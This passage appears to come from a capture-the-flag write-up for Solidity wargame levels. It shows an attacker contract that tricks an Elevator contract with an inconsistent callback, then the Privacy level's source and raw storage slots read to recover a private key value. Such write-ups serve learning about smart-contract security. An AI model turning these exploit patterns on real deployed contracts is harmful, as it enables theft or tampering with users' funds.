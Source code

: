 I deployed the following contract and invoked its `getToTopFloor()` method with the victim contract's address, and this completed the level.

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ImpureBuilding {
    bool private sayNoOnce = true;
    function isLastFloor(uint256) external returns (bool) {
        if (sayNoOnce) {
            sayNoOnce = false;
            return false;
        }
        return true;
    }

    function getToTopFloor(address elevator) external {
        Elevator(elevator).goTo(1);
    }
}

interface Elevator {
  function goTo ( uint256 _floor ) external;
}
```

# Level 12: Privacy
```
contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```
This level seems almost identical to "Vault". There is a private variable in the contract's state, and we need that value to unlock the contract and pass the level. The only difference here is that the data is slightly less obviously placed.


[0]: 0x0000000000000000000000000000000000000000000000000000000000000001
[1]: 0x0000000000000000000000000000000000000000000000000000000067cc2b64
[2]: 0x000000000000000000000000000000000000000000000000000000002b64ff0a
[3]: 0x43b3ddb218d1f4f2070643816f15c9814c2b105dc9648a459c02ba97627b44c7
[4]: 0xf98f451e75dd214bbd77286a0d6925ffe6bb76431e1e679f8d3b099dc8c09566
[5]: 0xa341432f16b3bf30d347d6b6a3261b4a05b3c073ebb4b1eca9b0e5481d04435b